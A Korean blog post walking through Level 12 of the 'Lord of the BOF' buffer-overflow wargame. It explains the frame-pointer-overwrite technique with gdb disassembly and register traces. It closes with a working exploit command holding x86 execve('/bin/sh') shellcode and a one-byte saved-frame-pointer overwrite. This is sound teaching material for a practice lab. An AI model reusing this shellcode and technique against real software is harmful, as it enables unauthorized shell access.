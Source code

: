 ```yaml
---
layout: post
title: "The Lord of the BOF - Level 12"
comments: true
categories: [LOB]
tags: [LOB]
---
```

<img data-action="zoom" src='{{ "assets/lob/level12/1.jpg" | relative_url }}' alt='relative'>  

## 1) golem/cup of coffee 입력하여 로그인하기  

<img data-action="zoom" src='{{ "assets/lob/level12/2.png" | relative_url }}' alt='relative'>  

힌트로 FPO라는 단어를 주었는 데,,, FPO는 무엇일까요?  

## 2) FPO란?  

Frame Pointer Overwrite로 SFP의 1byte를 overwrite하여 실행코드가 있는 주소로 eip를 변조하는 기법이다.  

``` c
void problem_child(char *src)
{
        char buffer[40];
        strncpy(buffer, src, 41);
        printf("%s\n", buffer);
} 
```

c언어 코드에서도 buffer 배열의 사이즈는 40 byte인데 strncpy 함수로 41 byte 길이의 문자열을 복사합니다.  
SFP의 마지막 바이트를 덮어 써서 공격자가 원하는 주소로 변경한 뒤 프로그램의 흐름을 변경하는 공격으로 보입니다.  

SFP의 마지막 한 바이트를 수정하기 위해 buffer 배열 다음에 dummy 공간 없이 바로 SFP가 위치하는 것으로 예상됩니다.  

## 3) darknight 프로그램의 스택 구조 확인하기  

darknight.c 소스코드를 컴파일하여 test 프로그램을 만들었습니다.  
그리고 test 프로그램을 gdb로 컴파일하여 스택에 구조를 살펴봤습니다.  

<img data-action="zoom" src='{{ "assets/lob/level12/3.png" | relative_url }}' alt='relative'>  

``` bash
0x8048440 <problem_child>:      push   %ebp
0x8048441 <problem_child+1>:    mov    %ebp,%esp
0x8048443 <problem_child+3>:    sub    %esp,40
```

sub %esp, 40을 보면 buffer 배열의 크기만큼 스택을 할당하는 것을 볼 수 있습니다.  
그러면 이전에 예측한대로 buffer 배열과 SFP 사이에는 dummy 공간이 존재하지 않습니다.  

<img data-action="zoom" src='{{ "assets/lob/level12/4.png" | relative_url }}' alt='relative'>  

darkknight 프로그램의 problem_child 함수가 종료하고 다시 main 함수로 돌아왔을 때 스택 구조는 위 그림과 같습니다.  
스택에는 buffer 배열의 주소가 저장되어 있으니 이 주소를 활용하면 buffer 배열의 주소를 특정하여 직접 입력하지 않아도 buffer 배열을 참조할 수 있습니다.  

## 4) 그러면 SFP 마지막 바이트에 어떤 값을 입력해야 프로그램 흐름을 변경할 수 있을까?  

우선 프로그램의 흐름을 변경하기 위해 call, leave, ret 명령어를 알아야 합니다.  

``` bash
0x8048499 <main+45>:    call   0x8048440 <problem_child>

0x8048469 <problem_child+41>:   leave
0x804846a <problem_child+42>:   ret
```

call, leave와 ret 명령어는 다음과 같은 명령을 수행합니다.  

``` bash
// call
push $eip
jmp addr

// leave
mov $esp, $ebp
pop $ebp

// ret 
pop $eip
jmp $eip
```


명령어에 대한 내용을 파악하였다면 이제 darknight 프로그램의 어셈블리어 코드를 분석해보겠습니다.  

<img data-action="zoom" src='{{ "assets/lob/level12/5.png" | relative_url }}' alt='relative'>  

main에서 problem_child 함수를 호출하기 위해 call 명령어를 하고 나서 problem_child 함수가 함수 실행을 위한 지역 변수 메모리 할당 명령어를 수행한 뒤의 레지스터 값 정보입니다.  

``` bash 
0x8048499 <main+45>:    call   0x8048440 <problem_child>
0x8048440 <problem_child>:      push   %ebp
0x8048441 <problem_child+1>:    mov    %ebp,%esp
0x8048443 <problem_child+3>:    sub    %esp,40
``` 

즉, 위의 어셈블리어 코드 부분에 해당하는 명령어를 수행한 뒤 레지스터 값에 대한 정보입니다.  
esp 레지스터는 현재 스택이 가리키고 있는 위치를 저장하는 레지스터이고, ebp는 함수의 base 주소를 저장하는 레지스터입니다.  
여기서는 스택에서 problem_child 함수의 base 주소가 ebp 레지스터에 저장되어 있고, buffer 배열의 시작주소가 esp 레지스터에 저장되어 있습니다.  

esp 레지스터가 가리키는 주소(=buffer 배열의 시작 주소)에 저장된 값을 확인해보니 strncpy 함수가 실행되기 전이라 쓰레기 값이 저장되어 있습니다.  
SFP는 0xbffffb08이고 RET는 main 함수에서 problem_child 함수를 호출하고 난 다음의 코드 주소인 0x0804849e입니다.  

<hr>

<img data-action="zoom" src='{{ "assets/lob/level12/6.png" | relative_url }}' alt='relative'>  

problem_child 함수에서 strncpy 함수를 실행하고 나서 leave 명령어를 실행하기 전 레지스터 정보입니다.    

``` bash
0x8048446 <problem_child+6>:    push   41
...
0x8048450 <problem_child+16>:   call   0x8048374 <strncpy>
...
0x8048469 <problem_child+41>:   leave
```

이전과 비교해서 esp 레지스터와 ebp 레지스터에 변화는 없습니다.  
다만, buffer 배열에 실행시 입력해준 인자 값이 저장되어 있습니다.  
\x90(NOP) 40 byte와 'A' 1 byte를 입력해줘서 SFP 값이 0xbffffb08에서 0xbffffb41로 덮어 써졌습니다.  

<hr>

<img data-action="zoom" src='{{ "assets/lob/level12/7.png" | relative_url }}' alt='relative'>  

leave 명령어가 실행된 이후의 레지스터 정보입니다.  

``` bash
// leave
mov $esp, $ebp
pop $ebp
```

<img data-action="zoom" src='{{ "assets/lob/level12/8.png" | relative_url }}' alt='relative'>  

leave 명령어는 ebp 레지스터 값을 esp 레지스터에 저장하고 ebp 레지스터에 esp 레지스터가 가리키는 스택의 값을 저장합니다.  

이전에 ebp 레지스터 값이 0xbffffafc 이므로 esp 레지스터에는 0xbffffafc가 저장되고,  
esp 레지스터가 가리키는 주소에서 pop 하여 0xbffffafc 주소에 저장되어 있는 값을 ebp에 저장합니다.  

esp는 pop하면서 4 byte 이동하여 0xbffffb00 값을 저장하고, ebp는 0xbffffafc 위치에 저장된 0xbffffb41을 저장합니다.  

leave 명령어를 수행하고 나서 esp가 가리키는 값, 즉 0xbffffb00 주소에는 0x0804849e가 저장되어 있습니다.  
다음 ret 명령어를 수행하면서 0x0804849e가 eip 레지스터에 저장됩니다.   

<hr>

<img data-action="zoom" src='{{ "assets/lob/level12/9.png" | relative_url }}' alt='relative'>  

``` bash
// ret 
pop $eip
jmp $eip
```

pop $eip 명령을 수행하면서 esp 레지스터 값이 4 byte 증가하였고 eip 레지스터는 0xbffffb00에 저장된 0x0804849e가 저장되었습니다.  


이 과정을 도식화하면 아래 그림과 같습니다.  

<img data-action="zoom" src='{{ "assets/lob/level12/11.png" | relative_url }}' alt='relative'>  

## 5) 공격 페이로드 입력하여 BOF 일으키기  

버퍼에 NOP과 쉘코드를 입력하고 마지막 바이트는 buffer 배열의 주소가 저장되어 있는 주소로 지정합니다.  
buffer 배열의 주소가 어느 주소에 저장되어 있는지 확인하기 위해 임의의 값을 넣고 프로그램을 실행시켜 봅니다.  

<img data-action="zoom" src='{{ "assets/lob/level12/12.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/lob/level12/13.png" | relative_url }}' alt='relative'>  

여러 번 시도를 한 결과 41번째 byte에 '\x68'을 입력하면 problem_child 함수가 끝날 때 ebp에는 배열의 주소가 저장되어 있는 0xbffffa68 주소가 담기고, problem_child 함수가 종료하고 나서 main 함수가 끝날 때 leave 명령어로 ebp에 있던 0xbffffa68 주소가 esp에 담기고, ret 명령어로 esp가 가리키는 위치의 주소에 저장된 값을 eip가 저장하여 buffer 배열의 주소로 프로그램 흐름이 변경됩니다.  

``` bash
0x8048499 <main+45>:    call   0x8048440 <problem_child>
//0x8048440 <problem_child>:      push   %ebp
//0x8048441 <problem_child+1>:    mov    %ebp,%esp
//0x8048443 <problem_child+3>:    sub    %esp,40
...
0x8048469 <problem_child+41>:   leave
0x804846a <problem_child+42>:   ret
//0x804849e <main+50>:    add    %esp,4
0x80484a1 <main+53>:    leave
0x80484a2 <main+54>:    ret
```



<hr>

공격 페이로드를 darkknight 프로그램에 적용하여 실행해보면 test 프로그램과 스택에 저장되는 주소가 일치하지 않아 '\x68'로는 Segmentation fault가 발생합니다.  

<img data-action="zoom" src='{{ "assets/lob/level12/14.png" | relative_url }}' alt='relative'>  

이 경우에서는 값을 변경하며 여러 번 시도하면 됩니다.  

<img data-action="zoom" src='{{ "assets/lob/level12/15.png" | relative_url }}' alt='relative'>  

``` bash
./darkknight `python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x48"*100'`
```

공격 페이로드에 '\xff'를 입력하면 '\x00'으로 인식하는 문제가 있어 공격 페이로드에는 '\xff'를 입력하지 않는 것이 좋습니다.  
bash2에서는 '\xff'를 정상적으로 인식한다고 하였으나 bash2를 실행한 뒤 '\xff'를 입력하였을 때도 '\x00'으로 인식하는 문제가 있었습니다.  

